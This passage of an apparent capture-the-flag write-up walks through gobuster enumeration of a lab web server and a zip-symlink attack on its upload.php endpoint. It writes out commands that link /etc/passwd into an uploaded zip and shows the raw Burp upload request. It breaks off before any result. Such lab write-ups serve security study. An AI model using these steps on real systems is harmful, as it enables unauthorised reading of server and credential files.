 ```terminal
/shop                 (Status: 301) [Size: 311] [--> http://10.10.11.229/shop/]
/assets               (Status: 301) [Size: 313] [--> http://10.10.11.229/assets/]
/upload.php           (Status: 200) [Size: 5322]
```

Alright we got webserver running on port 80, after running gobuster we got 3
directories, `/uploads`, `/shop` and `/assets`.

Non of the directories have anything interesting, so i decided to check out the
`/upload.php` endpoint. and voila. we can upload files, but they are restricted
to only `.zip` files. and the extracted file must be a `.pdf` file. At this
point i was thinking of uploading a reverse shell in a zip file, but i was not
sure if it will work. so i decided to check out the `/shop` endpoint.

The endpoint kinda look interesting but i was not sure what to do with it. so i
decided to get back to the `/upload.php` endpoint.

Playing around with the upload.php endpoint, i found out that the file is being
uploaded to `/uploads/{some_random_hash_value}/file.pdf` directory. I spend a
little amount of time here trying to upload a reverse shell in a zip file, but
it did not work. so i decided to google lfi with zip files. and i found this
[HackTricks Page](https://book.hacktricks.xyz/pentesting-web/file-upload/).

```bash
ln -s ../../../index.php symindex.txt
zip --symlinks test.zip symindex.txt
tar -cvf test.tar symindex.txt
```

alright lets taste this out.

```bash
❯ ln -s /etc/passwd symindex.pdf
❯ zip --symlinks test.zip symindex.pdf
  adding: symindex.pdf (deflated 60%)
```

I use burp to upload the file. and it worked.

```req
POST /upload.php HTTP/1.1
Host: 10.10.11.229
Content-Length: 460
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://10.10.11.229
Content-Type: multipart/form-data; boundary=----WebKitFormBoundary4fdnIVaZFVYSWqpB
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/117.0.5938.63 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://10.10.11.229/upload.php
Accept-Encoding: gzip, deflate, br
Accept-Language: en-US,en;q=0.9
Connection: close

------WebKitFormBoundary4fdnIVaZFVYSWqpB
Content-Disposition: form-data; name="zipFile"; filename="test.zip"
Content-Type: application/zip

PK

¹)

¹)
------WebKitFormBoundary4fdnIVaZFVYSWqpB
Content-Disposition: form-data; name="submit"

```